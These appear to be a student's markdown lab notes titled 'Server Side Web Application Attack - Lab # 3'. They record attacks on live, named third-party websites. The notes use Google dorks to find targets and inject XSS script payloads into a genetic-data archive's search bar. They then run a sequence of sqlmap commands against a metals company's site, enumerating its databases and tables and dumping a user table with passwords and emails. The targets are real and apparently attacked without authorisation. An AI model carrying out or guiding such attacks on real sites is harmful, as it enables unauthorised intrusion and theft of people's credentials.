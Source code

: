 ```yaml
---
title: 'Server Side Web Application Attack - Lab # 3'
updated: 2023-05-06 17:22:31Z
created: 2023-04-28 16:50:49Z
latitude: 51.50735090
longitude: -0.12775830
altitude: 0.0000
---
```


## XSS
### 1. Vulnerable Website
Found the target site using this search query on Google Search Page 2,
```
		inurl:/search-results.php?search=
```

![e01968f2b11599e381eac3fbcaca9632.png](../_resources/e01968f2b11599e381eac3fbcaca9632.png)

### 2. Target Site
- **About** 
	- The European Genome-phenome Archive (EGA) is a service for permanent archiving and sharing of all types of personally identifiable genetic and phenotypic data resulting from biomedical research projects. The EGA contains exclusive data collected from individuals whose consent agreements authorise data release only for specific research use or to bona fide researchers.
- Used this link:
	-  https://ega-archive.org/

### 3. Launching Attack
## 3.1 
	
![331cfeb78e049b574ea4901ca5f4ab17.png](../_resources/331cfeb78e049b574ea4901ca5f4ab17.png)
	  - In the search bar, injected the following JS code and XSS happened
```
	<script>alert('Testing. XSS. EthicalHacking');</script>
```

![ac9c84089db04e74a33ca2018761902a.png](../_resources/ac9c84089db04e74a33ca2018761902a.png)

## 3.2 Placing Image on Site
- Distorted the site with custom image on it using the following lines of code
```

	<script>
		alert('xss. Ethical Hacking!'); 
		document.write("<img src='https://www.howtogeek.com/wp-content/uploads/2020/12/google-chrome-logo-on-a-blue-background.jpg?height=100p&trim=2,2,2,2' />");
	</script>


```

![0073bf2667999863e2927357533513eb.png](../_resources/0073bf2667999863e2927357533513eb.png)

<center>_____________________________________________________</center>

## 3.2 SQL Injection using SQLMap
- Following the video steps found the sql vulnerable site using this google dork
```sql
	inurl:/product.php?id=
```

![3b7172eba46efc76f137d80fe919ab17.png](../_resources/3b7172eba46efc76f137d80fe919ab17.png)

- Target Site Link https://www.lghk.com/product.php
	- **About Site**
		- LeachGarner is a global precious metal solution provider (A Berkshire Hathaway Company). We design, fabricate and distribute precious metal alloys, mill products and jewelry findings to a number of industries including electronics, medical, automotive, jewelry and numismatic. Headquartered in Attleboro, MA USA, LeachGarner has sales, distribution and manufacturing facilities in the US, Hong Kong and China. LeachGarner brands include General Findings, Excell Chains and Stern Metals.
### 3.2.a. Testing Site Vulnerable to Sql Injection or Not
- As described in the video, place an apostrophe at the end of the url and see if any error appears on page, if yes then site is vulnerable to attack.
```
	https://www.lghk.com/product.php?id=142&pid=4%27
```

![76ffbd65654b31d1f53d63a7df2da0f6.png](../_resources/76ffbd65654b31d1f53d63a7df2da0f6.png)

### 3.2.b Testing Site using SQLMap
- Found databases of the site using this command
```
	sqlmap -u "https://www.lghk.com/product.php?id=142&pid=4" --dbs
```

- Output of the above command
![495a2375af9ac1aff0c47ab44e5172cc.png](../_resources/495a2375af9ac1aff0c47ab44e5172cc.png)

- Fetching Tables of `leach` database as listed in the above screenshot using this command,
```
	sqlmap -u "https://www.lghk.com/product.php?id=142&pid=4" -D leach --tables

```

- Output of the above command
![e117f2a727a2401e0cb9c27f2dfe5714.png](../_resources/e117f2a727a2401e0cb9c27f2dfe5714.png)

- Fetching columns in the `usr` table of `leach` database using this command
```
	sqlmap -u "https://www.lghk.com/product.php?id=142&pid=4" -D leach -T usr --columns

```

- Output of the above command
![5582e517bd254a521b430feb04d68aec.png](../_resources/5582e517bd254a521b430feb04d68aec.png)

- Dumping users credentials using this command
```
	sqlmap -u "https://www.lghk.com/product.php?id=142&pid=4" -D leach -T usr -C "usr_id, usr_name, usr_pwd, usr_login_name, usr_email ,usr_st, usr_lv" --dump

```

![c9a6f67d9b2e447f8667c588baf19ed0.png](../_resources/c9a6f67d9b2e447f8667c588baf19ed0.png)

<center>_____________________________________________________</center>
